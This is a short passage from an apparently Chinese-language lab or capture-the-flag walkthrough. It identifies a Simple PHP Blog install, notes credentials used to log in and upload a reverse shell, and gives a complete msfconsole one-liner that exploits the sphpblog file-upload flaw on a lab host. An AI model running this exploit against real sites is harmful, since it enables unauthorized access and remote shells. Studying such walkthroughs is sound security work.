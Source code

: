 [![](assets/1703831504-9f5fc155befaed5091a948de937a2b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164023-93a10a02-a493-1.png)

### <5>Simple PHP 源码收集、漏洞利用（MSF）

1.  此外`/blog`网页源码可以发现站点源码地址为`[sourceforge.net/projects/sphpblog/](https://sourceforge.net/projects/sphpblog/)`，可以使用msf进行利用
2.  创建了一个新用户名密码 `D7fAjm:LB0oXg`，可登录`/blog`上传反弹shell到`/images`
    
    ```plain
    msfconsole -q -x 'use exploit/unix/webapp/sphpblog_file_upload;set rhost 10.10.10.100;set uri /blog;run'
    ```
    

[![](assets/1703831504-b1a689ed5c1ada9530bead1e01002135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164033-9931c2b8-a493-1.png)
